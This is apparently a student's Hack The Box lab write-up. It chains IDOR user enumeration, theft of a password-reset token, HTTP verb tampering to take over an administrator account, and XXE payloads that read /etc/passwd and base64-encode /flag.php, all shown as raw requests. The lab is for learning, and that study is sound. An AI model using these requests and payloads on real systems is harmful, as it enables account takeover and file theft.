Hi reader!!! Recently i challenged myself with some ctf challs and they were extremely hard for me. I hardly solve any of them by myself. Without AI im nothing. So now i continue to focus on learning and will try to read some CVEs of web vuln maybe…. 

This module is really helpful to give me an illustration about how to exploit things step by step… hell yeah

Alright this is my write up for web-attacks on HTB hope you will enjoy it !!!

Lets go! 😽

## PArt 1: Checking around

### Login to the website

Here im using burpsuite to help me solve this chall

Now turn on intercept



First request



Second one



The Last 





The 3rd one is really interesting. Now im going to change its uid to see if i can IDOR to see other user information !!

## Part 2: IDOR

I change the `uid` in the path to `1`

```python
GET /api.php/user/1 HTTP/1.1
```



Damn it !!! So nice It works.

I send it to intruder and attack.




The website have around 100 users. because there is nothing at uid 101 !!!

Here is all users information :

```json collapse={5-101}
{"uid":"74","username":"htb-student","full_name":"Paolo Perrone","company":"Schaefer Inc"}
{"uid":"1","username":"s.applewhite","full_name":"Samanta Applewhite","company":"Daniel Inc"}
{"uid":"2","username":"a.sumner","full_name":"Ari Sumner","company":"Friesen Group"}
{"uid":"3","username":"j.oshaughnessy","full_name":"Jeevan Oshaughnessy","company":"Jaskolski - Lang"}
{"uid":"4","username":"r.trainor","full_name":"Riggs Trainor","company":"Beer, Daugherty and Lang"}
{"uid":"5","username":"j.bigelow","full_name":"Jakari Bigelow","company":"Ritchie - Hettinger"}
{"uid":"6","username":"k.windsor","full_name":"Kahlan Windsor","company":"Rutherford LLC"}
{"uid":"7","username":"w.amador","full_name":"Whitley Amador","company":"Howell and Sons"}
{"uid":"8","username":"k.parrett","full_name":"Kristie Parrett","company":"Raynor Inc"}
{"uid":"9","username":"g.fetter","full_name":"Guiliana Fetter","company":"Mann - Doyle"}
{"uid":"10","username":"h.chaudhry","full_name":"Huxton Chaudhry","company":"Volkman - Satterfield"}
{"uid":"11","username":"c.hall","full_name":"Charlotte Hall","company":"Reichel - Tillman"}
{"uid":"12","username":"z.mccurdy","full_name":"Zyon Mccurdy","company":"Wintheiser - Altenwerth"}
{"uid":"13","username":"p.whitman","full_name":"Paula Whitman","company":"Rath Inc"}
{"uid":"14","username":"z.soria","full_name":"Zackery Soria","company":"Altenwerth - Haag"}
{"uid":"15","username":"b.moriarty","full_name":"Brandi Moriarty","company":"Veum - Bechtelar"}
{"uid":"16","username":"z.burdette","full_name":"Zadie Burdette","company":"Jakubowski, Reichert and Champlin"}
{"uid":"17","username":"s.mandujano","full_name":"Sofi Mandujano","company":"Lind - Schiller"}
{"uid":"18","username":"e.mohammad","full_name":"Emiyah Mohammad","company":"Jones - Stanton"}
{"uid":"19","username":"d.tyndall","full_name":"Dottie Tyndall","company":"Hauck Inc"}
{"uid":"20","username":"k.felice","full_name":"Kendalynn Felice","company":"Gislason, Grant and Beatty"}
{"uid":"21","username":"r.tseng","full_name":"Rianna Tseng","company":"West - Lakin"}
{"uid":"22","username":"k.deleon","full_name":"Kameron Deleon","company":"Muller - Bogisich"}
{"uid":"23","username":"r.galloway","full_name":"Raven Galloway","company":"Hermann, Ankunding and Beier"}
{"uid":"24","username":"d.lira","full_name":"Demarion Lira","company":"Stoltenberg - Hodkiewicz"}
{"uid":"25","username":"m.mcatee","full_name":"Monet Mcatee","company":"Lubowitz, Schoen and Barrows"}
{"uid":"26","username":"n.mcfadden","full_name":"Nasir Mcfadden","company":"Crooks - Kub"}
{"uid":"27","username":"b.collett","full_name":"Braelyn Collett","company":"Lakin Inc"}
{"uid":"28","username":"f.lara","full_name":"Felix Lara","company":"Hayes, Koelpin and Murazik"}
{"uid":"29","username":"a.arneson","full_name":"Airam Arneson","company":"Osinski, Sawayn and West"}
{"uid":"30","username":"k.wilkerson","full_name":"Kamila Wilkerson","company":"Brown, Willms and Quitzon"}
{"uid":"31","username":"a.nations","full_name":"Aadvik Nations","company":"Jakubowski - Medhurst"}
{"uid":"32","username":"a.bustillos","full_name":"Anabell Bustillos","company":"Hamill Group"}
{"uid":"33","username":"a.zelaya","full_name":"Amani Zelaya","company":"Huel, Kris and Considine"}
{"uid":"34","username":"a.mobley","full_name":"Alena Mobley","company":"Bayer - Tromp"}
{"uid":"35","username":"j.triplett","full_name":"Javon Triplett","company":"Lehner - Dietrich"}
{"uid":"36","username":"b.worthy","full_name":"Brentlee Worthy","company":"Brakus Group"}
{"uid":"37","username":"l.hammons","full_name":"Letty Hammons","company":"Bogisich, Purdy and Rogahn"}
{"uid":"38","username":"s.mcauley","full_name":"Steel Mcauley","company":"Cummerata and Sons"}
{"uid":"39","username":"o.powe","full_name":"Oumou Powe","company":"Parker, Feeney and Buckridge"}
{"uid":"40","username":"c.cogan","full_name":"Clarisa Cogan","company":"Rohan, Johnson and Flatley"}
{"uid":"41","username":"r.goings","full_name":"Ram Goings","company":"Jacobson, Kertzmann and Jacobi"}
{"uid":"42","username":"a.yin","full_name":"Asaad Yin","company":"Leuschke, Klocko and Bruen"}
{"uid":"43","username":"j.rosenberger","full_name":"Jean Rosenberger","company":"Morar, Schuster and Johns"}
{"uid":"44","username":"p.klein","full_name":"Paul Klein","company":"Kautzer, Connelly and McKenzie"}
{"uid":"45","username":"n.cochrane","full_name":"Nehemias Cochrane","company":"Osinski, Haag and Conn"}
{"uid":"46","username":"j.rigsby","full_name":"Jalissa Rigsby","company":"Ward - O'Kon"}
{"uid":"47","username":"t.fairchild","full_name":"Toni Fairchild","company":"Bergnaum - Stiedemann"}
{"uid":"48","username":"k.ambrosio","full_name":"Katai Ambrosio","company":"Borer Inc"}
{"uid":"49","username":"m.hunnicutt","full_name":"Marty Hunnicutt","company":"Glover - Russel"}
{"uid":"50","username":"r.raby","full_name":"Rafaela Raby","company":"Okuneva - Mayert"}
{"uid":"51","username":"a.batres","full_name":"Abir Batres","company":"Rosenbaum LLC"}
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
{"uid":"53","username":"n.downs","full_name":"Nico Downs","company":"Welch, Collier and Gulgowski"}
{"uid":"54","username":"d.holcomb","full_name":"Darren Holcomb","company":"Reynolds, Keebler and Lindgren"}
{"uid":"55","username":"j.holmberg","full_name":"Jayliana Holmberg","company":"Haag - Douglas"}
{"uid":"56","username":"i.durbin","full_name":"Isabell Durbin","company":"Goyette - Mraz"}
{"uid":"57","username":"d.mcgee","full_name":"Daisy Mcgee","company":"Rodriguez, Windler and Hartmann"}
{"uid":"58","username":"d.jumper","full_name":"Darek Jumper","company":"Kihn, Hickle and Wilderman"}
{"uid":"59","username":"e.mckinzie","full_name":"Emre Mckinzie","company":"Heathcote - Bechtelar"}
{"uid":"60","username":"c.paz","full_name":"Camron Paz","company":"Bernier, Stamm and Ankunding"}
{"uid":"61","username":"s.shiver","full_name":"Siana Shiver","company":"Bernhard, Jerde and Bashirian"}
{"uid":"62","username":"a.lankford","full_name":"Ayvah Lankford","company":"Oberbrunner, Wyman and Ledner"}
{"uid":"63","username":"k.flint","full_name":"Khalid Flint","company":"Halvorson Inc"}
{"uid":"64","username":"r.kozlowski","full_name":"Rome Kozlowski","company":"Lubowitz - Leannon"}
{"uid":"65","username":"r.wellman","full_name":"Renesmee Wellman","company":"Bernhard and Sons"}
{"uid":"66","username":"e.canady","full_name":"Emrie Canady","company":"Bashirian - Medhurst"}
{"uid":"67","username":"r.kwon","full_name":"Roselynn Kwon","company":"Schimmel - Jakubowski"}
{"uid":"68","username":"k.zarate","full_name":"Karmen Zarate","company":"Shanahan Group"}
{"uid":"69","username":"h.farlow","full_name":"Hisham Farlow","company":"Lockman Group"}
{"uid":"70","username":"m.urias","full_name":"Malika Urias","company":"Willms LLC"}
{"uid":"71","username":"m.farrington","full_name":"Micaiah Farrington","company":"Legros - Schulist"}
{"uid":"72","username":"a.tolman","full_name":"Anand Tolman","company":"Schamberger and Sons"}
{"uid":"73","username":"s.nutt","full_name":"Sequoia Nutt","company":"Wiza - Abernathy"}
{"uid":"74","username":"htb-student","full_name":"Paolo Perrone","company":"Schaefer Inc"}
{"uid":"75","username":"h.ray","full_name":"Harrison Ray","company":"Satterfield, Schultz and Kemmer"}
{"uid":"76","username":"d.lubin","full_name":"Deema Lubin","company":"Gorczany - Reilly"}
{"uid":"77","username":"t.banner","full_name":"Tierney Banner","company":"Bartoletti - Gaylord"}
{"uid":"78","username":"o.bear","full_name":"Olivier Bear","company":"Barton - O'Reilly"}
{"uid":"79","username":"c.mathieu","full_name":"Cyril Mathieu","company":"Ebert Group"}
{"uid":"80","username":"b.landry","full_name":"Bethany Landry","company":"Kertzmann - Reynolds"}
{"uid":"81","username":"k.enoch","full_name":"Kiefer Enoch","company":"Hermiston, Koelpin and Bode"}
{"uid":"82","username":"a.kang","full_name":"Allan Kang","company":"Purdy Group"}
{"uid":"83","username":"z.hollon","full_name":"Zakhi Hollon","company":"Waelchi Group"}
{"uid":"84","username":"r.deboer","full_name":"Randi Deboer","company":"McKenzie Inc"}
{"uid":"85","username":"s.reichert","full_name":"Sanaya Reichert","company":"Howell and Sons"}
{"uid":"86","username":"r.ewing","full_name":"Remi Ewing","company":"Deckow LLC"}
{"uid":"87","username":"b.delatorre","full_name":"Brodie Delatorre","company":"Larkin LLC"}
{"uid":"88","username":"e.hagen","full_name":"Eddie Hagen","company":"Murphy - Hansen"}
{"uid":"89","username":"m.stock","full_name":"Marcello Stock","company":"Satterfield, Marquardt and Oberbrunner"}
{"uid":"90","username":"z.recinos","full_name":"Zian Recinos","company":"Renner and Sons"}
{"uid":"91","username":"j.breuer","full_name":"Jabria Breuer","company":"Kulas - Stokes"}
{"uid":"92","username":"n.andrus","full_name":"Nazir Andrus","company":"Jakubowski - Price"}
{"uid":"93","username":"t.olivarez","full_name":"Teo Olivarez","company":"Rempel, Larson and Zieme"}
{"uid":"94","username":"m.player","full_name":"Majd Player","company":"Miller, Wisoky and O'Reilly"}
{"uid":"95","username":"o.alverson","full_name":"Ousmane Alverson","company":"Bartell - Gorczany"}
{"uid":"96","username":"j.jewett","full_name":"Jazmyne Jewett","company":"Cruickshank, McLaughlin and Barton"}
{"uid":"97","username":"b.mccallister","full_name":"Blayne Mccallister","company":"Emmerich and Sons"}
{"uid":"98","username":"e.amoroso","full_name":"Ellyn Amoroso","company":"Simonis, Roob and Cassin"}
{"uid":"99","username":"j.orcutt","full_name":"Jayana Orcutt","company":"Fritsch, Murray and Reinger"}
{"uid":"100","username":"e.harder","full_name":"Ester Harder","company":"Rau Inc"}
```

Take a look at `userid 52` : It have the company is Administrator which is kinda sus !!!

```json
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

i will check out if there is any vuln can help me change the password of this username :)))

## PaRt 3: Get the password of username `a.corrales`

Now, My current user is `htb-student` and i have found that there is a changing password page


Turning on intercept

`1st` ( remember to send those to repeater !!!)



`2nd`



Damn these two are soo interesting :33

Let go check it right away

### Token



This request help us to take the token of the user (uid 74) for change password

Now i replace that with uid 52 and take its token

```json
GET /api.php/token/52 HTTP/1.1
Host: 94.237.122.188:36250
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: */*
Referer: http://94.237.122.188:36250/settings.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=9jiar4p8lsrj5ek7g5cuc6rsqe; uid=74
Connection: keep-alive

```

```json
HTTP/1.1 200 OK
Date: Thu, 18 Dec 2025 05:51:37 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 48
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

Damn nice i got it !! how about going to change password ?

### Reset.php

This one help to change password. Change uid and token to user id 52

```json
POST /reset.php HTTP/1.1
Host: 94.237.122.188:36250
Content-Length: 65
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.122.188:36250
Referer: http://94.237.122.188:36250/settings.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=9jiar4p8lsrj5ek7g5cuc6rsqe; uid=74
Connection: keep-alive

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=123456
```



Dang it  !  `Access denied` !!!!

How about we change the request method to other type to perform `HTTP VERB TAMPERING`

### HTTP verb tampering

Change POST → GET



Works…..

```json
GET /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=123456 HTTP/1.1
Host: 94.237.122.188:36250
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: */*
Origin: http://94.237.122.188:36250
Referer: http://94.237.122.188:36250/settings.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=9jiar4p8lsrj5ek7g5cuc6rsqe; uid=52
Connection: keep-alive

```

Right now i can login to user of company Administrator !!!

```json
username: a.corrales
password: 123456
```

See you in part 4

## Part 4: exploit with XXE



In the administrator dashboard we can see `ADD EVENT` feature. Lets examine that !


Now intercept on. I have captured and sent it to repeater 



Take a look at this. It retrieve back with the `<name>` of xml 

Now i try with simple payload to see if it can leak out /etc/passwd, That gonna be the key to help us exploit this

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name 
[<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>1121-10-22</date>
            </root>
            
```



NIceeeeeee!

Here is the question of this skill assessment !

> Try to escalate your privileges and exploit different vulnerabilities to read the flag at '`/flag.php`'.
> 

Alright now i use this payload to take the content of flag.php. 

Because this file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format - From `hackthebox`

So we use `base64` to `encode` it first and `decode` it then ( `base64` output should not break the XML format - `hackthebox`)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name 
[<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>1121-10-22</date>
            </root>
            
```

